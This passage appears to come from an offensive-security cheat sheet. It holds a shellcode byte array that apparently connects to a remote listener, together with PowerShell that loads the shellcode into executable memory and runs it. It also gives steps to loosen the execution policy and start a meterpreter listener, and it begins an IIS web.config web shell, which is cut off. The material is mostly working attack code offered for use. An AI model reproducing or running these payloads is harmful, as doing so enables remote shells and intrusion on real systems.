 ```
0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x31,0xff,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x1,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x8b,0x58,0x20,0x50,0x1,0xd3,0x8b,0x48,0x18,0x85,0xc9,0x74,0x3c,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xf8,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

**Step 3**

Change Execution Policy on current user

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

**Step 4**

Start meterpreter listener

## Easy Wins

### IIS ASP 'web.config' shells

https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c

```vb
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
```